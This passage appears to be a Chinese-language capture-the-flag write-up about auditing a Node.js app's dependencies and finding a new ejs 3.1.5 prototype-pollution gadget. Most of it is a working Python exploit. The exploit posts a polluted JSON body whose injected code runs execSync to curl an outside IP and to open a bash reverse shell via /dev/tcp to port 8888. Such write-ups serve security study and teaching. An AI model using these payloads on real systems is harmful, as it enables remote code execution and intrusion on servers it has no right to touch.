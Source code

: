 #### 存在依赖版本漏洞，审计得到新的原型链污染 gadgets

`npm audit` 一下可以发现 `putil-merge@3.6.0` 存在原型链污染，`ejs@3.1.5` 有一个后来被否认的 [CVE-2022-29078](https://www.cve.org/CVERecord?id=CVE-2022-29078) 以及 [ejs issue#571](https://github.com/mde/ejs/issues/571)，`lodash@4.17.4` 的漏洞很多但是没怎么用到。

putil-merge 的漏洞可以被利用，而 ejs 的相关问题因为 WAF 限制无法使用。

需要通过审计 ejs 源码得到新的 prototype pollution gadgets。

[ejs.js#L590-L600](https://github.com/mde/ejs/blob/v3.1.5/lib/ejs.js#L590-L600)

![](static/Vcf8bGjW8oAR17xWiUDcFV3lnud.png)

可以看到 `ejs@3.1.5` 对于 `destructuredLocals` 的处理相较于 `ejs@3.1.9` 少了 `_JS_IDENTIFIER` 的正则验证。带来了新的 `Code injection` 点。本地尝试注入发现均报错。打断点动调将带来正确的 payload。最终利用 exp 如下，需要手动访问 index 触发（其中有些是动调过程中遗留的属性，没再改）：

```python
import random
import requests

HOST = "1.14.108.193:xxxxx"

template = '''{
"oldFileName":"exp.js",
"newFileName":{
    "constructor":{
        "prototype":{
            "filename":"/etc/passwd\\nfinally { this.global.process.mainModule.require('child_process').execSync('curl http://120.26.39.182') }",
            "compileDebug":true,
            "message":"test",
            "client":true,
            "variable": "'){this.global.process.mainModule.require('child_process').execSync('calc')}; with(obj'",
            "parentResolveInclude" :"123",
            "destructuredLocals": ["asdasd = __locals.asdasd;this.global.process.mainModule.require('child_process').execSync('bash -c \\\"bash -i >& /dev/tcp/120.26.39.182/8888 0>&1\\\"');asd"]
        }
    }
},
"uuid":"8ec40df8-7603-4959-9a26-5944974f5aa0"}'''

r = str(random.randint(1,1000))
getHash = requests.post(f"http://{HOST}/upload", files={ "file": open('./exp.js', 'rb')}).text
template = template.replace('exp2.js', r).replace("\n", "").replace("    ", "").replace('8ec40df8-7603-4959-9a26-5944974f5aa0', getHash)
print(template)
res = requests.post(f"http://{HOST}/rename", headers={"Content-Type": "application/json"}, data=template, proxies={"http":None}).text
print(res)
```